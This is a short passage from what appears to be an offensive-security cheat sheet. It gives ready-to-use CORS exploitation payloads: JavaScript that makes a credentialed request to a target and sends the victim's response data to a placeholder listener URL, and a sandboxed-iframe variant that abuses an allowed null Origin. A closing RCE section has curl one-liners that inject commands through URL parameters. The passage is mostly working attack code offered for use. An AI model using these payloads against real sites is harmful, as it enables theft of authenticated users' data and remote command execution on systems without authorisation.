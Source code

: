 #### Payload
```html
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get', '<url>', true);
req.withCredentials = true;
req.send();

function reqListener() {
  location = '<listener-url>/log' + this.responseText;
}
```

#### Allowed NULL Origin
Request:
```http
GET <url> HTTP/1.1
Host: <url>
Origin: null
```

Response:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

#### Payload
Include the script in an iframe to set the Origin to null:
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req =

 new XMLHttpRequest();
req.onload = reqListener;
req.open('get','<url>',true);
req.withCredentials = true;
req.send();

function reqListener() {
  location='<listener-url>/log?key='+this.responseText;
};
</script>"></iframe>
```

## RCE (Remote Code Execution)

### Injection in Parameters
```sh
curl http://<url>?<arg>=<cmd>  # GET
curl -G "http://<url>" --data-urlencode "<cmd>"  # GET encoded
```
For Windows paths, escape separators as `\\`.
